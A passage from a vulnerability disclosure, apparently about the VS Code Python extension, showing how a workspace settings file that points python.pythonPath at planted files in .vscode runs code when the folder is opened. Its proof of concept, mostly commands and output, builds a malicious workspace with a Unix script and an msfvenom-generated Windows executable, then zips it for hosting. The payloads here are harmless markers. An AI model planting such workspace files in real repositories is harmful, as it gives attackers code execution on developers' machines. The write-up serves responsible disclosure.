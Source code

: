 While on Linux and macOS it will execute:

* `${pythonPath}/python`
* `${pythonPath}/bin/python`
* `${pythonPath}/python4`
* `${pythonPath}/bin/python4`
* ... And so on

If we were to set `pythonPath` to `zzzz` and create the following files within the Workspace:

* `zzzz/python.exe` (Windows PE file)
* `zzzz/python` (Unix shebang file for which Linux and macOS generally provide a common interpreter)

Then we could create a universal exploit that targets Windows, Linux and macOS

## Proof of Concept

Create a universal exploit, zip it up and host it via a webserver.

* Linux/macOS payload: Write to `/tmp/pythonpath_win` (and pop Calculator.app if running on macOS)
* Windows payload: pop calc.exe

```
% mkdir -p pythonpath_poc/.vscode/zzzz        # hide the payloads within the .vscode directory

% cat > pythonpath_poc/.vscode/settings.json
{
  "python.pythonPath": "${workspaceFolder}/.vscode/zzzz",
  "files.associations": {"*": "python"}
}
^D

% cat > pythonpath_poc/.vscode/zzzz/python    # Linux/macOS Payload
#!/usr/bin/env python
import getpass
import platform

with open("/tmp/pythonpath_win", "w") as f:
  f.write("Code execution as: {}".format(getpass.getuser()))

if platform.system() == "Darwin":
  import subprocess
  subprocess.call(["open", "/Applications/Calculator.app"])

^D

% chmod a+x pythonpath_poc/.vscode/zzzz/python

% /opt/metasploit-framework/msfvenom \
    -p windows/exec \
    CMD=calc \
    -f exe \
    -o pythonpath_poc/.vscode/zzzz/python.exe         # Windows payload

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 189 bytes
Final size of exe file: 73802 bytes
Saved as: pythonpath_poc/.vscode/zzzz/python.exe

% zip -r pythonpath_poc.zip pythonpath_poc
  adding: pythonpath_poc/ (stored 0%)
  adding: pythonpath_poc/.vscode/ (stored 0%)
  adding: pythonpath_poc/.vscode/settings.json (deflated 9%)
```